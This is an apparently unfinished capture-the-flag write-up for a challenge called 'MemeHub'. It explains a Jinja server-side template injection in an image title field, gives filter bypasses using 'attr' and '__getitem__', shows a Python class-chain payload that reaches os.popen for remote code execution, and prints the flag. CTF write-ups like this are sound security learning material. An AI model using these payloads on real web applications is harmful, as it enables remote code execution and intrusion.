 # MemeHub

**`Author:`** [Malik](https://github.com/malikDaCoda)

## Description

> Oh! There you are! Let me just introduce you to the best spot for top-tier memes: MemeHub!!

## Write-up

### Brief Summary (not so brief)

- vuln: server-side template injection in the title field when uploading an image
- after some testing, we can conclude that the characters `.[]` are not allowed
- we have to find bypasses for the following constructs :
  - `obj.attribute` --> `obj|attr('attribute')` (`attr` is a filter in jinja template engine)
  - `obj[index]` --> `obj.__getitem__(index)` --> `obj|attr('__getitem__')(index)`
  - `obj['key']` --> `obj.__getitem__('key')` --> `obj|attr('__getitem__')('key')`
- after converting a payload similar to `''.__class__.__base__.__subclasses__()[INDEX_OF_A_SUBCLASS_IMPORTING_SYS].__init__.__globals__['sys'].modules['os'].popen(CMD).read()`, we get RCE

### TODO

Flag: `shellmates{tR0ll1nG_@_mem3R_w1tH_4_w3ll_cr4fT3d_1nj3ct10n}`
